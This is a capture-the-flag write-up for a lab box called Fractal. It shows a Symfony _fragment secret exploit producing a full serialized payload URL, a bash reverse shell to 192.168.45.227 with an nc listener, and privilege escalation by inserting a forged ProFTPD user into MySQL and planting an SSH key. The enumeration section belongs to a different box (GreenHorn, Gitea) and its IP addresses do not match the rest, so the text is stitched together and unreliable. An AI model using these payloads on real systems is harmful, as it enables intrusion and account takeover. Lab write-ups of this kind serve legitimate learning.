






Fractal was an extremely useful box to learn and train my MySQL skills. It starts with identifying a Symfony CMS through HTTP enumeration. 

The Symfony profiler was explored, leading to finding sensitive files and obtaining database credentials. 

Using these credentials, a Symfony exploit script was executed to achieve Remote Code Execution (RCE) and gain a reverse shell.

Privilege escalation involved creating a new user via MySQL, allowing SSH access with elevated privileges, eventually leading to root access.

# Diagram




## Information Gathering

### Port Scan
---

- `nmap -Pn 10.10.11.25`
    
    


## Enumeration

### HTTP 80

---

- http://10.10.11.25/
    
    
    
- Há um direcionamento para: greenhorn.htb
    
    

- Edição do `/etc/hosts`
    
    
    
- Acessando a página Web

    
    
- Nome da possível aplicação:
    
    
    

- Campo de login
    
    


### HTTP 3000    


- Na porta 3000 encontramos uma aplicação Gitea, contendo o versionamento da aplicação (código fonte).

    
    

- Selecionando o botão "Explore" conseguimos encontrar o código fonte da página.
    
    
    
    
- Em `GreenHorn/data/settings` Podemos encontrar informações da aplicação.

    

    $sitetitle = 'GreenHorn';
    $email = 'admin@greenhorn.htb';

- Foi obtido também um hash:

    

    ``` <?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?> ```


## Exploitation

Searching a lot, I found the following article [https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5](https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5) 

- [https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py](https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py)

Inside it, there is an exploit from a fragment. I tried to enumerate the secret but found nothing.

- `python3 secret_fragment_exploit.py http://192.168.192.233/_fragment`
    
    
    

Then I decided to use the secret found in the database.

- `python3 secret_fragment_exploit.py 'http://192.168.192.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.192.233/_fragment' --function system --parameters "id"`
    
    
    

Now accessing the generated URL. I was able to execute commands.

- [http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522id%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=11%2FxvG%2BUpm6nlv7maKqSHFIXdN0BjTshxq568sphXaU%3D](http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522id%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=11%2FxvG%2BUpm6nlv7maKqSHFIXdN0BjTshxq568sphXaU%3D)
    
    
    

- `python3 secret_fragment_exploit.py '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--method 2 \
--secret '48a8538e6260789558f0dfe29861c05b' \
--algo 'sha256' \
--internal-url '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--function system \
--parameters "bash -c 'bash -i >& /dev/tcp/192.168.45.227/80 0>&1'"`
    
    
    
- [http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D](http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D)
- `rlwrap nc -lvnp 80`
    
    
    

- `local.txt`
    
    
    

## Priv Escalation

- `cat /etc/passwd` → there is the user benoit
    
    
    

I previously obtained access to database information, let's check and access it.

- `netstat -nlpt`
    
    
    

I tried to access MySQL with the credentials obtained earlier but failed. Then I looked for cron, kernel version, SSH, etc., but found nothing. So I decided to look at the FTP configuration files.

- `ls -lah /etc/proftpd`
    
    
    
- `cat sql.conf`
    
    
    

Let's connect to SQL.

- `mysql -u proftpd -p proftpd` : `protfpd_with_MYSQL_password` → 
    
    

It seems to have a password for www to access proftpd. FTP authentication through ProFTPD

I will create a new password for the user **benoit** who already exists in the system.

 

In the `{md5}` base64-encoded format. Therefore, the right way to generate a password for the user **benoit** is to use the base64-encoded MD5 hash method.


- `/bin/echo "{md5}"/bin/echo -n "hendrich" | openssl dgst -binary -md5 | openssl enc -base64`
- ```INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`) VALUES (NULL, 'benoit', '{md5}wZjbZseC3NVjPeEobwukRg==', 1000, 1000, '/', '/bin/bash', 0, NOW(), NOW());```
    
    
    

Now logging into FTP


- `ftp 192.168.192.233` `benoit:hendrich`
    
    
    

- `ssh-keygen`
    
    
    
- `cp id_rsa.pub authorized_keys`
- `mkdir .ssh`
- `put authorized_keys`
    
    
    

- `ssh -i id_rsa benoit@192.168.192.233`
    
    
    

- `sudo -l` → has permission to execute everything. sudo su works
    
    
    

- `flag`
    
    